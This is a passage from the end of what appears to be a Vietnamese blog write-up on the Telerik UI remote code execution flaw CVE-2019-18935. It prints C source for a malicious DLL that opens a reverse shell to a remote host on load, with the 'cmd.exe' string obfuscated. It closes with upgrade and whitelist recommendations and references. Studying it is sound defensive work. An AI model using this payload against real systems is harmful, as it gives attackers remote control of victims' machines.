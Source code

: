```c

    WSAConnect(Winsock, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);
    if (WSAGetLastError() == 0) {

        memset(&ini_processo, 0, sizeof(ini_processo));

        ini_processo.cb = sizeof(ini_processo);
        ini_processo.dwFlags = STARTF_USESTDHANDLES;
        ini_processo.hStdInput = ini_processo.hStdOutput = ini_processo.hStdError = (HANDLE)Winsock;

        char *myArray[4] = { "cm", "d.e", "x", "e" };
        char command[8] = "";
        snprintf(command, sizeof(command), "%s%s%s%s", myArray[0], myArray[1], myArray[2], myArray[3]);
        CreateProcess(NULL, command, NULL, NULL, TRUE, 0, NULL, NULL, &ini_processo, &processo_info);
    }
}

DWORD WINAPI MainThread(LPVOID lpParam)
{
    ReverseShell();
    return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
    HANDLE hThread;

    if (fdwReason == DLL_PROCESS_ATTACH)
        hThread = CreateThread(0, 0, MainThread, 0, 0, 0);

    return TRUE;
}
```

![image]({{ "/assets/img/2025-09-12-CVE-2019-18935/image20.png" | relative_url }})

![image]({{ "/assets/img/2025-09-12-CVE-2019-18935/image21.png" | relative_url }})

## V. Recommendations

- Nâng cấp lên những phiên bản mới nhất của Telerik UI (>= R1 2020)
- Nếu sử dụng những phiên bản >= 2019, kiểm tra và bật tuỳ chọn whitelist type trong `Telerik.Upload.AllowedCustomMetaDataTypes` trong web.config

## VI. References

- **https://www.youtube.com/watch?v=--6PiuvBGAU**
- **https://bishopfox.com/blog/cve-2019-18935-remote-code-execution-in-telerik-ui**
